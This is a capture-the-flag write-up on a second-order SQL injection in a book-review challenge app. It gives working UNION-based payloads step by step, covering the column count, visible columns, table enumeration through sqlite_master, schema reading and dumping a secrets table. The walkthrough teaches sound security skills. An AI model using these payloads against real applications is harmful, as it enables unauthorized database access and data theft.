




# CTF Writeup — Second-Order SQL Injection (BookBrew)

## Description

BookBrew is a book review community where users can register, browse a catalog, and post reviews. The registration form handles input safely, but the stored username is later reused unsafely in another query — a classic **second-order SQL injection**.

## Vulnerability

The injection does not occur at registration time. The username is stored correctly, but when the **"My Reviews"** page loads, the username is concatenated directly into a SQL query without sanitization. This means any SQL payload embedded in the username gets executed at query time.

## Exploitation

### Step 1 — Confirm the injection

Registering with the username `' OR '1'='1` causes the "My Reviews" page to display every review in the database, confirming the injection is active.

### Step 2 — Find the number of columns

A UNION-based injection requires matching the number of columns in the original query. Testing with 5 columns first:

```
' UNION SELECT 1,2,3,4,5--
```

The page returns an error, revealing the column count does not match.



Incrementing the count, the payload with **8 columns** succeeds without error:

```
' UNION SELECT 1,2,3,4,5,6,7,8--
```

### Step 3 — Identify visible columns

Registering with labeled placeholders:

```
' UNION SELECT 'A','B','C','D','E','F','G','H'--
```

Shows which positions are rendered in the UI:

| Column | Position | Visible as  |
|--------|----------|-------------|
| E      | 5        | Review text |
| F      | 6        | Timestamp   |
| G      | 7        | Book title  |
| H      | 8        | Icon/emoji  |

Column 5 (E) is used to exfiltrate data in all subsequent steps.

### Step 4 — Enumerate tables

```
' UNION SELECT 'A','B','C','D',name,'F','G','H' FROM sqlite_master WHERE type='table'--
```

The review text field displays all table names. The `secrets` table stands out as the target.



### Step 5 — Inspect the target table

```
' UNION SELECT 'A','B','C','D',sql,'F','G','H' FROM sqlite_master WHERE type='table' AND name='secrets'--
```

The `CREATE TABLE` statement is returned, revealing a column named `flag`.



### Step 6 — Dump the flag

```
' UNION SELECT 'A','B','C','D',flag,'F','G','H' FROM secrets--
```

The flag value appears in the review text field on the "My Reviews" page.


